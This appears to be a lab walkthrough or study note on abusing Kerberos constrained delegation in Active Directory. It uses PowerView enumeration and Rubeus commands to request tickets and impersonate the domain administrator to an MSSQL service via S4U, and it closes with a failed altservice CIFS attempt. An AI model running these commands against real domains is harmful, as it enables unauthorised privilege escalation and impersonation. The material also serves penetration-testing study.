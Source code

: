 **IMPORTANT NOTE:** ALL THIS HAVE TO BE PERFORMED FROM A POWERSHELL SESSION

(The msds-allowedtodelegateto property from the frontend service is what controls the delegation)

1st Enumeration with PowerView, this will return us that the iisvc account(frontend service) has the msds-allowedtodelegateto property set to: "MSSQLSvc/cdc01.contoso.com:1433"(backend service)
	
```Get-DomainUser -TrustedToAuth```

2nd Calculate the password hash of the iisvc account
	
```.\Rubeus.exe hash /password:lab```

3rd Ask for a TGT for the iisvc account 
	
```.\Rubeus.exe asktgt /user:iissvc /domain:contoso.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E```
	
4th Request a TGS for the administrator user for accessing the "MSSQLSvc/cdc01.prod.corp1.com:1433" service using the iisvc TGT previously requested
	
 ```.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.contoso.com:1433 /ptt```
	
5th Request a TGS for the administrator user for accessing the "CIFS/cd01.prod.corp1.com:1433" service using the iisvc TGT previously requested
	
 ```.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt```   -> Unfortunately, the SPN for the MSSQL server ends with “:1433”, which is not usable for CIFS since it requires an SPN with the format CIFS/cdc01.prod.corp1.com. If we modify the SPN from CIFS/cdc01.prod.corp1.com:1433 to CIFS/cdc01.prod.corp1.com in the command above, Rubeus generates an KDC_ERR_S_PRINCIPAL_UNKNOWN error, indicating that the modified SPN is not registered.
	

